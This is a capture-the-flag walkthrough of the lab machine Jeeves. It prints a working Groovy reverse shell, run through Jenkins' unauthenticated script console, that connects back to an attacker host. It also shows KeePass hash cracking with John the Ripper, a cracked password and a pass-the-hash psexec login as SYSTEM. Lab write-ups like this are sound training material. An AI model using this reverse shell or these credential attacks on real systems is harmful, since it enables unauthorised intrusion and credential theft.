

## Overview

Jeeves is a Windows 10 box running a couple web sites, one being Jenkins which did not require authentication and was leveraged to execute code via the script console and obtain the initial foothold as user kohsuke. kohsuke had a keepass file stored in the documents folder which was easily cracked with john the ripper. The keepass database contained a password hash for the administrator account which was used with impacket's psexec to get shell as 'nt authority\system'. An extra step was required to recover the root flag as NTFS alternate data streams were used to hide it.

## Enumeration

**Software**

* Windows 10 Pro 1511

* Jetty 9.4.z-SNAPSHOT

* Jenkins 2.87

**Open Ports**

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN results/10.10.10.63/scans/_full_tcp_nmap.txt
```

* 80/tcp - http

* 135/tcp - Windows RPC

* 445/tcp - SMB

* 50000/tcp - http

**File/Directory Brute Force**

```
gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15
```

* /askjeeves

## Steps (User)

I started taking a look at the site hosted on port 80, http://10.10.10.63 and was presented with a Ask Jeeves search page. 



Typing in a search query (random characters) displayed an image of an error message which I found a bit strange. The error message showed some potentially useful information about the software running on the box if it could be trusted. I took note and moved on.



Checking out the site running on port 5000, I was presented with a page displaying an error and the name and version of the web server software - Jetty 9.4.z-SNAPSHOT. 



The gobuster scan showed another page called askjeeves and after browsing to it, I was brought to a Jenkins page. Jenkins is used for automating software development related to building, testing, deploying and facilitating CI/CD (continuous integration, continuous delivery). I've heard of jenkins being exploited in the past, so this is where I decided to focus.



The site did not require authentication so I was able to head over to http://10.10.10.63:50000/askjeeves/script where I could execute a arbitrary [Groovy](http://www.groovy-lang.org/) scripts. There's a pretty popular script used for reverse shells [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)) that I used to successfully get a shell as user jeeves\kohsuke

```
String host="10.10.14.7";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



## Steps (root/system)

Poking around the file system, I found a file called C:\Users\Administrator\\.jenkins\secrets\intialAdminPassword which contained the admin password for jenkins. It was not immediately useful so I took note and moved on. 



Looking around the filesystem some more, I found CEH.kdbx in kosuke's Documents folder.  I copied this down to my box and looked up how to brute force the password. Hacktricks has a section for [keypass](https://book.hacktricks.xyz/brute-force#keepass) and it describes how to use keepass2john to extract the hash so it can be cracked with John the Ripper.

```
sudo apt install kpcli keepass2
keepass2john CEH.kdbx > CEH.hash
john --wordlist=/usr/share/wordlists/rockyou.txt ceh.hash
```



John successfully cracked the password: moonshine1



I was now able to open CEH.kdbx with the keepass app, specifying moonshine1 as the master key, and view the stored passwords.



This took a bit of trial and error, I was basically taking these passwords and trying to authenticate via smbmap to see if any of the passwords worked. I found that I was able to authenticate using the administrator account and the "backup stuff" hash. 

```
smbmap -H 10.10.10.63 -u administrator -p aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```



I was able to use that hash to authenticate via psexec, and got a shell as 'nt authority\system' but the usual root.txt file that I'm used to seeing wasn' t there. Viewing the contents of the file it read:  "The flag is elsewhere. Look Deeper"

```
~/tools/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63
```



At first I was thinking maybe there was a container running on the box somewhere, but  found no evidence of that. Then I thought of NTFS Alternate Data Streams (ADS) and how they can be used to hide data.  To check files for the presense of these, the command dir /r (or streams.exe from Sysinternals) can be used.

> ADS provides NTFS with the ability to store different "streams" of data, in addition to the default stream that is normally seen when a file is interacted with normally. The main purpose of this feature was to provide compatibility for the MacOS Hierarchical File System (HFS).

Running the command shows an ADS called root.txt



Running the command below displays the contents of the ADS stream and revealed the root flag.

```
more < hm.txt:root.txt
```


